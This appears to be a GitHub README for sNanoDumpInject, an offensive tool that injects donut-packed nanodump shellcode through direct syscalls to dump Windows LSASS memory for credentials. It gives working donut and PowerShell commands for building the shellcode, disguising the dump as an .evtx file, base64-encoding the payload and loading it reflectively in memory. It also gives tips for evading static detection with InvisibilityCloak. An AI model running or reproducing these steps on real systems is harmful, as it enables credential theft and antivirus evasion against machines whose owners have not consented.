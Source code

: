 # sNanoDumpInject 

Minor syscall edit to [@s3cur3th1ssh1t](https://twitter.com/ShitSecure)'s [NanoDumpInject.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs) from this [blog post](https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/).  

This repo contains code with donut'ed nanodump. DO NOT RUN random shellcodes inside random 0-star github repos. 

## Credits 

All credits to:
- @s3cur3th1ssh1t, @S4ntiagoP, @rastamouse, @ccob, 
- https://offensivedefence.co.uk/posts/Dynamic-syscalls/ 
- https://github.com/CCob/SharpBlock/blob/master/Program.cs#L37

Original Blog post & code: https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/

## Edits 

Added syscalls for the `Inject()` function. Small project to practice syscalls using DInvoke and creating a small syscall-only DInvoke.

## MISC/TODOs 

- Static Detection for DInvoke usually occurs in DInvoke strings. Use projects like [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) to reduce hits (13 -> 3)

- Learn what this PatchExit function is, and replace with syscalls as well? 

- Using most up-to-date 06/12/2022 nanodump + donut doesn't work - the powershell process will crash upon `NtCreateThreadEx`. Need to find the correct commit for both nanodump + donut, `git reset --hard <hash>`, and retry creating donut'ed nanodump. 

## Things for myself 
```
# donut 
donut.exe -i <path>\nanodump.x64.exe -b=1 -t -p "--write C:\windows\temp\trash2.evtx" -o C:\nanodump.bin

# Copy/Paste base64'ed nanodump 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("c:\nanodump.bin")) | clip

# Debugging  

$base64binary = [convert]::tobase64string((get-content -path "<path>\sNanoDumpInject\bin\Release\sNanoDumpInject.dll" -encoding byte ))
$RAS = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64binary))
[sNanoDumpInject.Program]::Inject(1) <# change 1 or 2 depending on nanodump shellcode #>

# Copy/Paste base64'ed sNanoDumpInject to the original powershell 
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<path>\sNanoDumpInject\bin\Release\sNaNoDumpInject.dll")) | clip

# Reflective Loader by S3cur3th1ssh1t
function Invoke-NanoDump
{
<#
    .DESCRIPTION
        Execute NanoDump Shellcode to dump lsass.
        Main Credits to https://github.com/helpsystems/nanodump
        Author: Fabian Mosch, Twitter: @ShitSecure
    #>

Param
    (
        [switch]
        $valid
)

if ($valid)
{
    $choice = 1
}
else
{
    $choice = 2
}
    # Source code here: https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/NanoDumpInject.cs
	$base64binary = "<b64>"
	$RAS = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64binary))
    [NanoDumpInject.Program]::Inject($choice)
  
}
```